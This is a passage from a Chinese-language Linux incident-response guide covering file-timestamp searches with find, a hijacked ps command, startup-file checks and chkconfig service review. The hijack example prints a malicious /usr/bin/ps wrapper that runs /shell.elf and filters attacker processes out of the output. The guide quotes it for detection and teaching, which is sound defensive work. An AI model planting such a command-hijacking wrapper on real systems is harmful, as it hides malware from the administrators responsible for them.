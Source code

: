 举例

```bash
# 排查2月五号整天，在服务器上文件内容发生变化的所有文件
find / -type f -newermt "2021-02-05 00:00" -a -not -newermt "2021-02-05 23:59"

# 排查2月五号整天，在服务器上新生成的文件
find / -type f -newerct "2021-02-05 00:00" -a -not -newerct "2021-02-05 23:59"
```

> **Linux 一切皆文件，先判断攻击时间段，攻击者无论是修改文件还是上传文件，都会触发文件修改改变。**



## 命令劫持


```bash
[root@localhost init.d]# cat /usr/bin/ps
#!/bin/bash
/shell.elf &
/root/hide_command/ps | grep -v "shell" | grep -v "centos_core" | grep -v "bash"
```

发现正常ps命令被劫持

执行正常命令就得

```bash
/root/hide_command/ps -ef
```



## 查看开机启动项


```bash
cat /etc/rc.local
cat /etc/profile 
```

![rc开机启动](/img/07/09_rc开机启动.png)


## 服务排查


### chkconfig服务排查

```bash
chkconfig
```
